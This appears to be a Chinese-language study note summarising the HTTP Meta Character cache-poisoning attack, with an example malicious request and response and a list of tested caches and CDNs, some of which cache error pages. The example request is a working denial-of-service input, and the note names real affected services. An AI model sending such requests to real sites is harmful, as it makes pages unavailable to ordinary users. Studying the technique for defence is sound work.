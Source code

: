 
---

<font color=red> HTTP Meta Character (HMC) Attack </font>


![1592294801131698](https://i.imgur.com/LoX9QZZ.png)

```bash
# 为了防止CRLF攻击，通常http会禁止value中带有\n或\r等符号
# 但由于Cache对此可能并不做过滤，那么就会产生语义上的gap

# 假设攻击者发送请求：
GET /index.html HTTP/1.1
Host: example.org
X-Metachar-Header: \n


# 由于该请求为第一次请求，Cache服务器将其转发给源服务器
# 而源服务器解析由于遇到危险字符，将会返回：
HTTP/1.1 400 Bad Request
Content-Length: 21
Content-Type: text/plain
Character not allowed

# 但由于Cache服务器对这些字符未必有过滤，于是将其对应缓存下来，那么当正常用户访问该页面时，将受到400 Bad Request的回显，从而产生Dos攻击。
```


---


### 实验测试

作者为了验证自己的3种攻击方式的可用性，其选择5个较为出名的proxies caches以及10个CDN：
```
Apache HTTP Server (Apache HTTPD) v2.4.18
Nginx v1.10.3,
Varnish v6.0.1
Apache Traffic Server (Apache TS) v8.0.2
Squid v3.5.12
Akamai
CloudFront
Cloudflare
Stackpath
Azure
CDN77
CDNSun
Fastly
KeyCDN
G-Score Labs
```

为了达成Dos攻击，那么要求上述缓存服务器必须可以缓存400 / 500等http状态的页面
- 只有 `Varnish, Apache TS, Akamai, Azure, CDN77, Cloudflare, CloudFront` 可以缓存 `400 / 500` 的页面
